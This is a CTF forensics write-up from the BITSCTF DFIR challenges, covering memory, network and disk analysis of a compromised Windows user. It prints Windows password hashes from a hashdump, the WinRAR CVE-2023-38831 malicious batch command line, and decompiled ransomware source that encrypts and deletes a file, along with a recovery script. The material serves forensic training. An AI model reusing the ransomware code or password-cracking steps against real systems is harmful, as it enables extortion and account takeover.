

# DFIR

DFIR or Digital Forensics and Incident Response is a field within cybersecurity that focuses on the identification, investigation, and remediation of cyberattacks. 

We are provided with three files - memdump.mem, trace.pcap and artifacts.ad1

## Access Granted! 
<i>Description: First things first. MogamBro is so dumb that he might be using the same set of passwords everywhere, so lets try cracking his PC's password for some luck.</i>
<hr>
Given that Mogambro reuses his password for many things, we can just find his user password. This can be achieved by dumping user hashes from memdump

```
$ python3 vol.py -f memdump.mem windows.hashdump

Volatility 3 Framework 2.4.2
Progress:  100.00		PDB scanning finished                          
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	74d0db3c3f38778476a44ff9ce0aefe2
MogamBro	1000	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
```

This hash is easily cracked...


#### Flag: BITSCTF{adolfhitlerrulesallthepeople} 
<hr>
<hr>

## 0.69 Day 
<i>Description: MogamBro was using some really old piece of software for his daily tasks. What a noob! Doesn't he know that using these deprecated versions of the same leaves him vulnerable towards various attacks! Sure he faced the consequences through those spam mails.

Can you figure out the CVE of the exploit that the attacker used to gain access to MogamBro's machine & play around with his stuff.</i>
<hr>
Looking at the processes with pstree and cmdline plugins of volatility we observe that Mogambro mainly used Winrar, Outlook and Skype... 

These set of instruction look very suspicious.
```
8436	WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"
1468	cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"   
780	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
8652	chrome.exe	Required memory at 0xb149572020 is not valid (process exited?)
3724	notepad.exe	notepad.exe  secret.png.enc 

```
This can be looked on further by analysis the artifacts.af1 in FTK Imager.. ..


<i>Note: Mounting the evidence item directly greatly helps in searching and browsing for files..</i>




follow-these-instructions.zip in ```C:/Mogambro/Downloads/```  folder.. looking into the zip file we see that it has a steps.pdf file as well as steps.pdf folder containing a .bat file of similar name... 
Googling a bit, we come across ```CVE-2023-38831``` that closely resembles this..


#### Flag: BITSCTF{CVE-2023-38831}
<hr>
<hr>

## MogamBro's guilty pleasure

<i>Description: MogamBro was spammed with a lot of emails, he was able to evade some but fell for some of them due to his greed. Can you analyze the emails & figure out how he got scammed, not once but twice!</i>
<hr>

We need to look for spam mails, mainly eml files. In artifacts.ad1, at path ```C:/Mogambro/Documents/Outlook``` we find two spam mails..

On first glance they just look like any other spam mails.. 
 Spammimic might be used to encode a secret message in the mail.. yep.


#### Flag: BITSCTF{sp4m_2_ph1sh_U} 
<hr>

## I'm wired in

<i>Description: MogamBro got scared after knowing that his PC has been hacked and tried to type a SOS message to his friend through his 'keyboard'. Can you find the contents of that message, obviously the attacker was logging him!</i>
<hr>

Mogambro suspects that he is being keylogged..
We look for any files with keyword key or any pcap files..

There's simply a keylog.pcap at ```C:/Mogambro/Desktop``` having usb traffic... 


True enough, HID data seems to have keylog information..


Using [this](https://www.usb.org/sites/default/files/documents/hut1_12v2.pdf#page=53) table, we can decode the HID Data...  I like to do it manually, after applying filters.. but obviously scripts can be used...

Decoded data...
```
I have been haked !!!
HELP ME 
BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

~ Mogambro
```

Always fun.

#### Flag: BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

<hr>
<hr>

##  Bypassing Transport Layer 

<i>Description: The exploit not only manipulated MogamBro's secret but also tried to establish an external TCP connection to gain further access to the machine. But I don't really think he was able to do so. Can you figure out where the exploit was trying to reach to?</i>
<hr>
We have a trace.pcap file that we haven't used yet. Checking network statistics and resolved addresses... Mogambro has umm went to some sussy shady sites.. uhm ..yea. Well, I guess the ads were enough to populate the pcap file.

Anyways at time ``` 794 seconds``` 
we see pastebin being visited.. but since traffic is encrypted we can't get more information.

Luckily, in previous question along with keylog.pcap we found keys file at ```C:/Mogambro/Desktop```. Using this file, as the secret log file...


We can see pastebin link ```https://pastebin.com/mPvzn0AD``` that we found earlier in .bat file.. but the post has already been removed...
Following the TCP stream though, after a little search, we find the flag..


#### Flag: BITSCTF{Ste4l1ng_pr1v47e_key5_ez:)}

<hr>
<hr>

# Lottery

<i>Description: Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.</i><hr>
We must get secret.png. We have come across lottery already in C:/Mogambro/Downloads.

Let's try to run this file in windows.

```
> .\lottery.exe
Traceback (most recent call last):
  File "lottery.py", line 34, in <module>
  File "lottery.py", line 17, in encrypt_file
FileNotFoundError: [Errno 2] No such file or directory: 'secret.png'
[26248] Failed to execute script 'lottery' due to unhandled exception!
```

This error code resembles python, meaning this file is a python to executable program. we can revert this to .pyc files by using `pyinstxtractor` 


```
> python .\pyinstxtractor.py .\lottery.exe
[+] Processing .\lottery.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 9008682 bytes
[+] Found 122 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: lottery.pyc
[+] Found 356 files in PYZ archive
[+] Successfully extracted pyinstaller archive: .\lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Now we can use `pycdc` to get the .pyc file as it's original .py code

```
└─$ pycdc lottery.pyc
# Source Generated with Decompyle++
# File: lottery.pyc (Python 3.8)

import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **('mode', 'delete'))
    fp.write(key)
    return key


def encrypt_file(file_path, key):
Unsupported opcode: BEGIN_FINALLY
    iv = b'urfuckedmogambro'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
```

Couple of code wasn't reverted, we can use `pycdas` to get all the python bytecode and give both this and that to chatgpt and tell it to generate the whole python code for us, end result we get the python code

```python
import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **{'mode': 'delete'})
    fp.write(key)
    return key

def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted_data = cipher.encrypt(padded_data)
    
    with open(file_path + '.enc', 'wb') as encrypted_file:
        encrypted_file.write(encrypted_data)
    
    os.remove(file_path)

if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
```

In the same folder we have the .enc file. Now we just need to reverse engineer this script to get our original .png, but there is key that we require. `urandom` is nearly impossible to reverse but the key is being stored at a temporary location, we know that the key is 32 bytes meaning the tempfile is also 32 bytes. Let's mount the image and search for a 32 byte file in the whole drive.


```powershell
PS D:\> Get-ChildItem -Path . -Recurse | Where-Object { $_.Length -eq 32 }


    Directory: D:\MogamBro\AppData\Local\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        15-02-2024     22:03             32 tmpd1tif_2a
```

This is the tempfile we need, we have the key, the iv and the cipher file. Now we write a script to decrypt the AES encryption.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import os

def decrypt_aes_cbc(file_path, key, iv):
    with open(file_path, 'rb') as encrypted_file:
        ciphertext = encrypted_file.read()

    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_data = decryptor.update(ciphertext) + decryptor.finalize()

    return decrypted_data

def save_decrypted_png(decrypted_data, output_path):
    with open(output_path, 'wb') as decrypted_file:
        decrypted_file.write(decrypted_data)

def main():
    # Provide the file path, AES key, and IV
    encrypted_file_path = 'path/to/encrypted_file.png'
    output_file_path = 'path/to/decrypted_file.png'
    aes_key = b'your_aes_key_here'  # 16, 24, or 32 bytes depending on AES key size (128, 192, or 256 bits)
    iv = b'your_iv_here'  # 16 bytes

    decrypted_data = decrypt_aes_cbc(encrypted_file_path, aes_key, iv)
    save_decrypted_png(decrypted_data, output_file_path)

    print("File decrypted successfully!")

if __name__ == "__main__":
    main()
```

we get the initial image


Flag: `BITSCTF{1_r3c3ived_7h3_b0mbz}`